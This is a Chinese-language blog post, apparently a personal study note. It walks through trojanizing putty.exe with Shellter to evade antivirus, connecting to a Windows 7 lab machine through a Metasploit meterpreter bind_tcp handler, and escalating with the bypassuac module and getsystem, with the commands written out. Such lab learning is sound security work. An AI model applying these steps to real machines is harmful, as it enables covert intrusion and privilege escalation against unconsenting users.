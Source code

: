 ```yaml
---
title: 'Metasploit 基础使用 handler 连接 win7 并提权清除日志'
date: 2020-12-11T15:55:33+08:00
draft: false
categories: ["运维"]
tags: ["信息安全","Linux"]
---
```

#### 简介

目前根据 [i 春秋][] 进行学习,目前到利用 [shellter][] 进行文件捆绑木马并达到免查杀的效果, 在使用 [metasploit][] 对指定目标机进行监听获取权限.利用打包好的漏洞程序进行提权并清除日志信息.这里我们的步骤是根据这个 [来源][] 学习进行的.
<!-- more -->
-------------------------

#### 操作环境

- kali 2020.4
- shellter 7.2-amd64
  - wine \ wine64 \ wine32
- metasploit  6.0.18-dev
- win 7 企业版
- 注:请特别注意关闭 *win7* 的防火墙,不要说为什么我的没有用连接不上

---------

#### 具体操作

首先下载 [putty.exe][] , 使用 *shellter* 进行木马封装,记住这些我们都是在 *kali* 虚拟机下完成的; *kali 2020.4* 并没有预安装 *shellter* 使用了 `sudo apt-get install shellter` 进行安装, 安装完了之后控制台返回了一个错误信息,希望我们添加 *32* 位的资源并且下载 *wine32* (这里的具体命令我记得并不是很清晰了,请自行看控制台).

安装好了 *shellter* 之后我们在终端输入 `sudo shellter` 会出现一个新的窗口, 这里会出现一些选择 (请参考下图), 目前我了解的 `a` 代表的是 *auto* 自动的意思. 而这里的 `m` 似乎代表的是 *manual*, 这里我们仅说明自动的操作. 选择自动模式后我们输入一个 [绝对路径][] (这里如果没有使用 *root* 权限执行 *shellter* 那么会提示让你权限不足).

![shellter-1][]

我们设置好了文件路径之后,继续输入 `y` 以及英文字母 `l`, 这时候需要选择具体的连接方式

- *Meterpreter_Reverse_TCP*
- *Meterpreter_Reverse_HTTP*
- *Meterpreter_Reverse_HTTPS*
- *Meterpreter_Bind_TCP*
- *Shell_Reverse_TCP*
- *Shell_Bind_Tcp*
- *WinExec*

首先我们说明选项中带有 *Meterperter* 表示支持使用 *Metasploit* 中的模块(推荐,提权之类的需要,漏洞利用); *Shell* 顾名思义就是一个 *shell* 对话框; 这里面还有 *Reverse* 和 *Bind* 这两种模式 **反向连接** 和 **正向连接**, 反向的意思是目标机运行文件之后主动连接我们, 正向是目标运行文件之后开放端口等待我们进行连接. 这里教程选择 *4*, 这里暂不做扩展.

后续输入的 *0.0.0.0* 表示任何 *IP* 都可以访问, *65500* 代表开放的端口等待控制

![shellter-2][]

![shellter-3][]

这里我们需要运行 *Metasploit* 使用指定模块进行目标机的监听

- `msfconsole`
- `use exploit/multi/handler`
- `set payload windows/meterpreter/bind_tcp`
- `show options`
- `set RHOST [IP]`
  - 请替换成你目标机的 *IP*, 不懂的话可以点击 *win7* 系统桌面下角的开始按键, 输入 `cmd` 你会获得一个黑窗口输入 `ipconfig`
- `set LPORT 65500`
  - 这个 *65500* 是根据三方第三张图中 *shellter* 之前设置的

- `exploit`

![msfconsole-1][]

目标机被执行了我们的程序之后我们的监听状态的就会自动连接,但是现在的执行的用户并不总是 *Administrator* 那么我们就需要提权,我们可以先执行 `background` 然后使用 *exploit/windows/local/bypassuac* 这个模板进行提权,源博客 [提权教程博客][].

```shell
meterpreter > background
msf6 exploit(multi/handler) > exploit/windows/local/bypassuac
msf6 exploit(windows/local/bypassuac) > sessions -l#这个会显示当前监听连接的列表以便 exploit/windows/local/bypassuac 的 session 参数赋值
msf6 exploit(windows/local/bypassuac) > set SESSION 1
msf6 exploit(windows/local/bypassuac) > sessions 1
meterpreter > getuid
meterpreter > getsystem
```

![msfconsole-2][]

![msfconsole-3][]





[i 春秋]: https://www.ichunqiu.com/course/58625
[shellter]: https://www.shellterproject.com/download/
[metasploit]: https://baike.baidu.com/item/Metasploit/4926164?fr=aladdin
[来源]: http://codefocus.top/?p=121
[putty.exe]: https://the.earth.li/~sgtatham/putty/latest/w32/putty.exe "这个是官网的下载链接,如果下载网速有问题的请自行寻找资源"
[绝对路径]: https://baike.baidu.com/item/%E7%BB%9D%E5%AF%B9%E8%B7%AF%E5%BE%84/481185?fr=aladdin
[提权教程博客]: http://codefocus.top/?m=201704





[shellter-1]: https://blog.ha0zi.com/images/2024/04/27/image-20240427214157637.png
[shellter-2]: https://blog.ha0zi.com/images/2024/04/27/image-20240427214034077.png
[shellter-3]: https://blog.ha0zi.com/images/2024/04/27/image-20240427213932554.png
[msfconsole-1]:  https://blog.ha0zi.com/images/2024/04/27/image-20240427213834790.png
[msfconsole-2]: https://blog.ha0zi.com/images/2024/04/27/image-20240427213414117.png
[msfconsole-3]: https://blog.ha0zi.com/images/2024/04/27/image-20240427213617060.png
